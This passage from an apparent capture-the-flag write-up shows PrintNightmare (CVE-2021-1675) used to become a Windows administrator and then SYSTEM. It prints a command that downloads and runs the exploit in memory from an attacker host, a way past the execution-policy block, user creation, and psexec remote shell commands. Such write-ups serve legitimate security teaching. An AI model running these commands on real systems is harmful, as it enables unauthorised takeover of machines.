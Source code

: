 If I try to upload a copy and load it, Windows blocks that:

    
    
    PS C:\programdata> wget 10.10.14.7/CVE-2021-1675.ps1 -outfile ./in.ps1
    PS C:\programdata> ls in.ps1
    
    
        Directory: C:\programdata
    
    
    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----          7/9/2021   9:36 AM         178561 in.ps1
    PS C:\programdata> Import-Module .\in.ps1
    Import-Module : File C:\programdata\in.ps1 cannot be loaded because running scripts is disabled on this system. For 
    more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.
    At line:1 char:1
    + Import-Module .\in.ps1
    + ~~~~~~~~~~~~~~~~~~~~~~
        + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
        + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
    

However, I can just `Invoke-Expression` (or `iex`) the code. I can do so right
from the webserver:

    
    
    PS C:\programdata> iex(new-object net.webclient).downloadstring('http://10.10.14.7/CVE-2021-1675.ps1')
    

Or from the local copy:

    
    
    PS C:\programdata> iex(cat in.ps1 -raw)
    

Either way, the code is now loaded. Now I can run it to add a user:

    
    
    PS C:\programdata> Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    Invoke-Nightmare -NewUser "0xdf" -NewPassword "0xdf0xdf"
    [+] created payload at C:\Users\jason\AppData\Local\Temp\nightmare.dll
    [+] using pDriverPath = "C:\WINDOWS\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\mxdwdrv.dll"
    [+] added user 0xdf as local administrator
    [+] deleting payload from C:\Users\jason\AppData\Local\Temp\nightmare.dll
    

With admin priv, I can PSExec to get remote execution as SYSTEM:

    
    
    oxdf@parrot$ psexec.py 0xdf:0xdf0xdf@10.10.10.237 cmd.exe
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
    
    [*] Requesting shares on 10.10.10.237.....
    [*] Found writable share ADMIN$
    [*] Uploading file oxypGsJo.exe
    [*] Opening SVCManager on 10.10.10.237.....
    [*] Creating service WIad on 10.10.10.237.....
    [*] Starting service WIad.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19042.906]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\WINDOWS\system32>whoami
    nt authority\system
    

[](/2021/07/10/htb-atom.html)


